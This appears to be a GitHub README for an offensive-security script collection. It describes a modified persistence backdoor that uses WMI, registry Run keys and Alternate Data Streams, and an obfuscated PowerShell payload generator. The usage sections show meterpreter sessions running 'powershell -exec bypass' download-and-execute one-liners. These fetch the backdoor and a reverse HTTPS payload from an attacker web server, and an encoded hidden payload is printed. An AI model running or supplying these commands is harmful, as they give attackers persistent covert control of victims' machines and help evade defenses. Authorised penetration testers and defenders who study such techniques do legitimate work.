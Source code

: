 # Random-Scripts
My scripts and modifications to other people's scripts to suit my needs

### Invoke-Persistence.ps1
This is a modified version of Invoke-ADSBackdoor persistence script by @enigma0x3. I basically just added WMI persistence capability and the modified it to take a payload as URL. I also modified Nikhil Mittal Remove-Persistence module from Nishang to be able to remove the WMI Persistence module. It basically takes in a URL payload generated by metasploit or cobalt strike stored on your webserver. It used two methods to achieve persistence. If its run with admin privileges it leverages WMI persistence, if run without it creates a payload by using two Alternate Data Streams and creates are key in the registry HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run (lame I know) so its executed on startup. The first Alternate Data stream stores the payload and the second Alternate Data Stream stores some VBScript that acts as a wrapper in order to hide the DOS prompt when invoking the data stream containing the payload. 

### USAGE
```
meterpreter > shell
Process 5604 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  
All rights reserved.
C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Invoke-Persistence -URL http://192.168.83.175/rev_https.ps1
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Invoke-Persistence -URL http://192.168.83.175/rev_https.ps1
```
### Check and Remove Persistence
```
C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
WARNING: WMI permanent event consumer persistence found. Use with -Remove option to clean.

C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence -Remove
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence -Remove
Checking for existence of WMI Persistence
Removing WMI Persistence
Removing the ADS Backdoor
No RegKey Persistence Found

C:\users\test>powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.83.175/Invoke-Persistence.ps1');Remove-Persistence

C:\users\test>
```
### Why?
For some reason Im unable to use the Persistence module from PowerSploit without breaking the Powershell of the Victim computer. Nishang's Add-Persistence non admin technique doesnt leverage ADS. Enigma0x3's script doesnt have a WMI Persistence function.

### mod_unicorn.py
This is a fork from TrustedSec's Dave Kennedy powershell payload generator. Sometimes you just want a properly obfuscated unicorned payload without any spaces or fancy character joining to paste into your script. 

### USAGE
```
root@kali:~/unicorn# python mod_unicorn.py 
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
[*] Running code through a lame var replace
powershell -nop -win hidden -noni -enc JAB5AGwAbwAgAD0AIAAnACQARgBkAEsAZAAgAD0AIAAnA..
....snip...
QB7ADsAaQBlAHgAIAAiACYAIABwAG8AdwBlAHIAcwBoAGUAbABsACAAJABoAGIAcwAgACQAZQAiADsAfQA=
```

